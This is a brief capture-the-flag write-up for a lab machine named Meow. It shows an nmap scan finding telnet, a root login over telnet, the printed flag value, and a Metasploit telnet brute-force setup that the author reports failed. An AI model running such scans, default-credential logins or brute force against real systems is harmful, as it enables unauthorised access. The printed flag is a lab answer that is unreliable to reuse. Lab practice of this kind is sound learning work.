 
nmap scanning :

~~~
nmap 10.129.204.160 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-07 09:03 EDT
Nmap scan report for 10.129.204.160
Host is up (0.42s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.13 seconds
~~~


after the nmap scan we find that telnet service has been running  in the machine

telnet:

Telnet is a network protocol used to virtually access a computer and to provide a two-way, collaborative and text-based communication channel between two machines.
telnet is run in 23 port of the server
this protocol used in application layer client server protocol that provides terminal session to remote host

the user name root 

~~~
root@Meow:~# whoami
root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
~~~


in this lab we learn about telnet and brute force in telnet protocol using metasploit

~~~
msf auxiliary(telnet_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf auxiliary(telnet_login) > set RHOSTS 
RHOSTS => 10.129.204.160
msf auxiliary(telnet_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(telnet_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(telnet_login) > run
~~~
this exploit does not work


successfully finished this lab 🔥🔥



